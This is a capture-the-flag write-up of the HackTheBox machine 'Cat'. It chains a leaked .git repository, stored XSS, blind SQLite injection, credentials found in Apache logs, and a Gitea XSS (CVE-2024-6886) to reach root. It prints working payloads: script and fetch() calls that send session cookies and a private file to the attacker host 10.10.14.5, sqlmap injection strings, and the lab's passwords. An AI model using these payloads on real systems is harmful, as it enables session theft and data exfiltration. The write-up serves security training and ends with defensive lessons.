







<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Linux (Ubuntu 20.04), **Difficulty:** Medium, **Released:** 2024-11-30, **IP:** `10.10.11.53` → `cat.htb`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. **Recon**. Only `22` and `80`. The web app is a "cat contest" site; an exposed **`.git/`** directory leaks the full PHP source.
2. **Source review**. `admin.php` is gated to the user `axel`, and registration blocks the name `axel`. The registration username is stored and later rendered unsanitised (**stored XSS**); `accept_cat.php` concatenates `catName` straight into a **SQLite** query.
3. **Stored XSS → admin session**. Register a user whose *name* is a `<script>` payload, submit a cat, wait for the admin to open the moderation page. Their `PHPSESSID` is exfiltrated → load it → reach `admin.php`.
4. **SQLite injection**. With the admin cookie the `accept_cat.php` `catName` parameter is injectable. `sqlmap` dumps the `users` table (MD5). Crack **`rosa : soyunaprincesarosa`** → SSH.
5. **rosa → axel**. The login form submits credentials by **GET** and Apache logs query strings, so `/var/log/apache2/access.log` holds **`axel : aNdZwgC4tI9gnVXv_e3Q`** in cleartext → `su axel`.
6. **axel → root**. `axel`'s mail points at an internal **Gitea 1.22.0** (`localhost:3000`) with a reviewer bot, *jobert*. Gitea 1.22.0 is vulnerable to **CVE-2024-6886** (stored XSS in the repo description). Port-forward `3000`, plant a payload that reads a private repo file and exfiltrates it, mail jobert the link. The stolen file holds hard-coded admin credentials **reused for `root`**.

</div>

<div class="callout callout-key">

**Credentials & Flags**


| Where | Value |
| --- | --- |
| `rosa`. Cracked MD5 from `users` | `soyunaprincesarosa` |
| `axel`. Apache `access.log` | `aNdZwgC4tI9gnVXv_e3Q` |
| web-admin creds in the private repo → `su -` | from the exfiltrated `index.php` (see note in Privesc) |
| `user.txt` | `/home/axel/user.txt` |
| `root.txt` | `/root/root.txt` |

</div>

---

## Overview

Cat is a "read the source you stole, then chain three web bugs" box. None of the primitives are exotic. A leaked `.git`, a stored XSS, a textbook string-concatenation SQL injection. But the box forces you to **use the code**: you only know that registration blocks `axel`, that an XSS sink exists, and that the DB is SQLite *because you read the PHP*. The privesc repeats the theme one layer down: an internal Gitea, a known CVE, and a human-emulating review bot you have to phish. The recurring idea is **data that is trusted in one context and rendered or executed in another**, finished off by **credential reuse** between the app and the OS.

For the same primitives elsewhere see the [Related Writeups](#related-writeups) section at the bottom.

---

## Full Walkthrough

### Nmap scan

```bash
Nmap scan report for cat.htb (10.10.11.53)
Host is up, received user-set (0.080s latency).
Scanned at 2025-05-16 15:29:14 EDT for 9s
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-headers:
|   Set-Cookie: PHPSESSID=tpnd7btjtfg3gg71523p30hd0k; path=/
|_  (Request type: HEAD)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two ports; a PHP session cookie scoped to `/` tells us it's a stateful PHP app. Add `cat.htb` to `/etc/hosts`.

### Nuclei Enumeration

```bash
[cookies-without-httponly] [javascript] [info] cat.htb ["PHPSESSID"]
[cookies-without-secure] [javascript] [info] cat.htb ["PHPSESSID"]
[waf-detect:apachegeneric] [http] [info] http://cat.htb/
[http-missing-security-headers:content-security-policy] [http] [info] http://cat.htb/
[http-missing-security-headers:x-frame-options] [http] [info] http://cat.htb/
[git-config] [http] [medium] http://cat.htb/.git/config
[tech-detect:php] [http] [info] http://cat.htb/
[apache-detect] [http] [info] http://cat.htb/ ["Apache/2.4.41 (Ubuntu)"]
[INF] Scan completed in 1m. 18 matches found.
```

Two findings matter: **`PHPSESSID` has no `HttpOnly`** (so `document.cookie` can read it. Remember this) and **`/.git/config` is served** (source disclosure).

From here I found `.git/config` which when visited gives me the following.

```ini
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
```

<div class="callout callout-note">

**Why an exposed `.git/` is game over**

When a site is deployed by copying a working tree, the `.git/` metadata ships with it. Even with directory listing off, the object store is readable by path. **GitTools `gitdumper`** walks `HEAD → refs → objects/…` to pull the repo, and `extractor` replays every commit into its own folder, so you recover the *entire history*. Deleted secrets, old configs, dev comments. Same primitive in [Dog](/writeups/hackthebox/linux/easy/dog/) (Backdrop CMS creds from `.git`) and [Pilgrimage](/writeups/hackthebox/linux/easy/pilgrimage/) (app source + a vulnerable ImageMagick build from `.git`).

</div>

I then used `gitdumper.sh` to download the `.git` dir.

```bash
└─[$] ./gitdumper.sh http://cat.htb/.git/ cat.htb/
###########
# GitDumper is part of https://github.com/internetwache/GitTools
###########
[+] Downloaded: HEAD
[+] Downloaded: refs/heads/master
[+] Downloaded: logs/HEAD
[+] Downloaded: objects/8c/2c2701eb4e3c9a42162cfb7b681b6166287fd5
[+] Downloaded: objects/c9/e281ffb3f5431800332021326ba5e97aeb2764
[+] Downloaded: objects/56/03bb235ee634e1d7914def967c26f9dd0963bb
... (20+ objects)
```

then I used `extractor.sh` to get all of the files commited.

```bash
└─[$] ./extractor.sh ../Dumper/cat.htb/ cat.htb-found
[+] Found commit: 8c2c2701eb4e3c9a42162cfb7b681b6166287fd5
[+] Found file: .../accept_cat.php
[+] Found file: .../admin.php
[+] Found file: .../config.php
[+] Found file: .../contest.php
[+] Found file: .../index.php
[+] Found file: .../join.php
[+] Found file: .../view_cat.php
[+] Found file: .../vote.php
[+] Found file: .../winners.php
[+] Found file: .../winners/cat_report_20240831_173129.php
```

I found something interesting in `admin.php` which is php code saying if the user is not equal to `axel` redirect `/admin.php -> /join.php` I am going to try to register the username `axel`.





Registration explicitly rejects `axel` (and `admin.php` only ever serves that one user), so the intended route is to **steal axel's session**, not log in as him.

Maybe try a bruteforce? No results, so I went for a classic cookie grabbing trick: if the admin is logged in this script will execute sending their cookie.



```html
<script>var i=new Image; i.src="http://10.10.14.5:8000/?"+document.cookie;</script>
```

<div class="callout callout-note">

**Stored XSS → session hijack**

`join.php` saves the username verbatim; `view_cat.php` / the admin moderation list prints it without `htmlspecialchars()`. That is a **stored** XSS sink: it fires in the *admin's* browser whenever they load the pending-cats page. On HTB the "admin" is a headless-browser cron that polls every 1 to 3 minutes, which is why the callback isn't instant. `document.cookie` yields `PHPSESSID` only because the cookie isn't `HttpOnly` (nuclei flagged exactly that). A filter-resistant alternative: ``. Same pattern in [Usage](/writeups/hackthebox/linux/easy/usage/), [Headless](/writeups/hackthebox/linux/medium/headless/), **Kitty v2**.

</div>

for some reason this did not trigger imediatly but it seems that the backend took its sweet ass time to give me the cookie. But after putting it in the browser and going to `/admin.php`, boom, admin panel.



I have an idea now. Now understanding that the admin can accept cats for the competition I am going to try to capture the accept request for the cat then attempt sql injection.

Captured the request like so.

#### Request

```http
POST /accept_cat.php HTTP/1.1
Host: cat.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Referer: http://cat.htb/admin.php
Cookie: PHPSESSID=qd3ofjm3c5shkbkc7prbhfkgus

catName=injectmedaddy&catId=1
```

After determining the back end database through the code found in the git directory it is running `sqlite` I then used `sqlmap` to exploit this.

<div class="callout callout-note">

**Reading the SQLite injection**

`accept_cat.php` builds `INSERT INTO accepted_cats (name) VALUES ('$catName')` by concatenation. The injection point sits inside a single-quoted string, so `'||(..)||'` closes the string, concatenates a sub-select (SQLite uses `||` for string concat) and re-opens it. An `INSERT` gives no UNION output channel, so extraction is **blind**: `sqlmap` asks thousands of true/false questions and, where boolean inference is flaky, falls back to **time-based**. `RANDOMBLOB(500000000/2)` makes SQLite hash ~250 MB, adding a measurable delay that encodes one bit. Slow but reliable. SQLite has no stacked-query RCE, but dumping `users` is enough here.

</div>

```bash
sqlmap -r cat.req --threads=10 --level=5 --risk=3 --batch -v2 --random-agent -p catName --dbms=sqlite

Parameter: catName (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catName=kittymeooowww'||(SELECT CHAR(89,105,79,98) WHERE 6685=6685 AND 5124=5124)||'&catId=1

    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: catName=kittymeooowww'||(SELECT CHAR(76,76,89,122) WHERE 3612=3612 AND 7572=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&catId=1
```

#### Cracking hashes

```bash
sqlmap -r cat.req -p catName --dbms=sqlite -T users --dump
```

```console
+---------+-------------------------------+----------------------------------+----------+
| user_id | email                         | password (MD5)                   | username |
+---------+-------------------------------+----------------------------------+----------+
| 1       | axel2017@gmail.com            | d1bbba3670feb9435c9841e46e60ee2f | axel     |
| 2       | rosamendoza485@gmail.com      | ac369922d560f17d6eeb8b2c7dec498c | rosa     |
| 3       | robertcervantes2000@gmail.com | 42846631708f69c00ec0c0a8aa4a92ad | robert   |
| 4       | fabiancarachure2323@gmail.com | 39e153e825c4a3d314a0dc7f7475ddbe | fabian   |
| 5       | jerrysonC343@gmail.com        | 781593e060f8d065cd7281c5ec5b4b86 | jerryson |
| 6       | larryP5656@gmail.com          | 1b6dce240bbfbc0905a664ad199e18f8 | larry    |
| 7       | royer.royer2323@gmail.com     | c598f6b844a36fa7836fba0835f1f6   | royer    |
| 8       | peterCC456@gmail.com          | e41ccefa439fc454f7eadbf1f139ed8a | peter    |
+---------+-------------------------------+----------------------------------+----------+
```

Unsalted MD5 → straight to `hashcat -m 0 hashes.txt rockyou.txt`. I took some of these hashes, tried to crack them, and got `rosa:soyunaprincesarosa`. Then SSH!

```bash
ssh rosa@cat.htb          # soyunaprincesarosa
```

`user.txt` belongs to `axel`, not `rosa`.

### privesc to axel

grepping through `/var/log/apache2/access.log` I found axel's password.

```console
127.0.0.1 - - [18/May/2025:01:10:19 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "..."
127.0.0.1 - - [18/May/2025:01:10:30 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "..."
rosa@cat:~$
```

<div class="callout callout-note">

**Credentials in `access.log`**

Apache's default `combined` format logs the full request line, **including the query string**. Cat's login form submits by `GET`, so every login attempt writes the plaintext password to a world-readable log. This is a real finding class. Grep prod/WAF/proxy logs and browser history for `password=`, `token=`, `api_key=`. Anything that logs or caches a URL is a credential store.

</div>

from here we can login to `axel` with `aNdZwgC4tI9gnVXv_e3Q`. Grab `user.txt`.

I found something interesting within his mail (`/var/mail/axel`) telling me about a local service. Going to forward it and check it out.

> We are currently developing an employee management system. Each sector administrator will be assigned a specific role, while each employee will be able to consult their assigned tasks. The project is still under development and is hosted in our private Gitea. You can visit the repository at `http://localhost:3000/administrator/Employee-management/`. In addition, you can consult the README file at `http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md`.



A second mail makes clear **jobert** reviews links people send him, which means there is a bot that opens whatever URL you give it.

seems to be a `gitea` instance. I tried logging into all users there with the passwords I found. Nothing.. 



<div class="callout callout-note">

**Rabbit hole, The SGID binary**

`find / -perm -2000 -type f 2>/dev/null` turns up a custom SGID binary. Reversed in Ghidra it's a stub `main` that calls `__libc_start_main` into a function that just spins in `while(true){}`. A decompiler artefact / deliberate dead end. **Not** the privesc path; don't chase a buffer overflow here.

</div>

on the system I found this `SGID` binary. I reversed it in `Ghidra` and found the following.

```c
// Ghidra output - effectively a no-op wrapper
void processEntry(undefined8 param_1, undefined8 param_2)
{
  undefined1 auStack_8 [8];

  __libc_start_main(FUN_001036b0, param_2, &stack0x00000008, FUN_0010e5e0, FUN_0010e650,
                    param_1, auStack_8);
  do {
                    /* WARNING: Do nothing block with infinite loop */
  } while( true );
}
```

hopefully I do not have to do a buffer overflow.

Port-forward the Gitea port to the attack box:

```bash
ssh -L 3000:127.0.0.1:3000 axel@cat.htb
```

looking through the apache logs again I confirmed the password `axel:aNdZwgC4tI9gnVXv_e3Q`. We are able to login to gitea now.

the `Gitea` version `1.22.0` is vulnerable to XSS. I am going to attempt to read the file `http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php` from the mail.

<div class="callout callout-note">

**CVE-2024-6886, Stored XSS in Gitea ≤ 1.22.0**

Gitea fails to sanitise the **repository description**: a `javascript:` URI inside an `<a href>` in the description renders live on the repo home page. Any authenticated user who views that repo. An admin, or a review bot like jobert. Runs attacker JS **in the Gitea origin**, so `fetch()` executes with the victim's session and can read private repos they have access to. Fixed in 1.22.1. It's the exact "attacker content rendered in a privileged browser" pattern from the foothold, one trust boundary up. Other Gitea boxes: [Nexus](/writeups/hackthebox/linux/easy/nexus/), [Titanic](/writeups/hackthebox/linux/easy/titanic/), [Drive](/writeups/hackthebox/linux/hard/drive/).

</div>

Create a repo, set its **description** to the payload, then mail jobert the repo link:

```js
<a href="javascript:fetch('http://10.10.14.5:8000/?cookie='+encodeURIComponent(btoa(document.cookie)));">BAPHOMETPWN</a>
```

(Cleaner variant that exfiltrates the file directly, since jobert has read access to the private org repo: `fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(r=>r.text()).then(d=>fetch('http://10.10.14.5:8000/?d='+encodeURIComponent(d)))`.)



now we have the password to login to root!

<div class="callout callout-note">

**The recovered credential**

The operator's notes stop here. Public write-ups record the exfiltrated `index.php` as containing `admin : IKw75eR0MR7CMIxhH0`, and that password is **reused for the system `root` account**:
```bash
su -            # IKw75eR0MR7CMIxhH0
id              # uid=0(root)
cat /root/root.txt
```

</div>

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `/home/axel/user.txt` (readable after `su axel`) |
| `root.txt` | `/root/root.txt` |

---

## Lessons & Takeaways

- **Steal the source, then *read* it.** The `.git` leak is a map, not the finding itself; every later step (blocked username, XSS sink, SQLite dialect, GET login form) came from the code.
- **Strip repo metadata from deploys**. `.git/`, `.svn/`, `*.bak`, editor swap files. Ship a build artefact, not a working tree.
- **`HttpOnly` on session cookies** would have killed the cookie theft even with the XSS still present.
- **Never `GET` a login form**, and filter `password=` / `token=` out of access logs.
- **Patch Gitea and disable open registration** on internal instances; a bot that opens arbitrary links is a phishing target.
- **One password, one system**. The web-admin password must never equal the root password.

---

## Related Writeups

- **`.git` disclosure / source review:** [Dog](/writeups/hackthebox/linux/easy/dog/), [Pilgrimage](/writeups/hackthebox/linux/easy/pilgrimage/)
- **Stored XSS → session / privileged action:** [Usage](/writeups/hackthebox/linux/easy/usage/), [Headless](/writeups/hackthebox/linux/medium/headless/), **Kitty v2**, [EarlyAccess](/writeups/hackthebox/linux/medium/earlyaccess/)
- **SQL injection with `sqlmap`:** [Monitored](/writeups/hackthebox/linux/medium/monitored/), [Magic](/writeups/hackthebox/linux/medium/magic/), [Jupiter](/writeups/hackthebox/linux/medium/jupiter/), [PC](/writeups/hackthebox/linux/easy/pc/), [Usage](/writeups/hackthebox/linux/easy/usage/)
- **Credentials from logs / files on disk:** [Nocturnal](/writeups/hackthebox/linux/easy/nocturnal/), [Blocky](/writeups/hackthebox/linux/easy/blocky/)
- **Gitea:** [Nexus](/writeups/hackthebox/linux/easy/nexus/), [Titanic](/writeups/hackthebox/linux/easy/titanic/), [Drive](/writeups/hackthebox/linux/hard/drive/)
- **Password reuse into `root`:** [Blocky](/writeups/hackthebox/linux/easy/blocky/), [Dog](/writeups/hackthebox/linux/easy/dog/), [Smol](/writeups/tryhackme/linux/medium/smol/)

## References

- GitTools <https://github.com/internetwache/GitTools>
- CVE-2024-6886 (Gitea stored XSS) <https://nvd.nist.gov/vuln/detail/CVE-2024-6886>
- Gitea 1.22.1 release notes <https://blog.gitea.com/release-of-1.22.1/>
- sqlmap techniques <https://github.com/sqlmapproject/sqlmap/wiki/Techniques>
- OWASP WSTG. Testing for Stored Cross Site Scripting <https://owasp.org/www-project-web-security-testing-guide/>
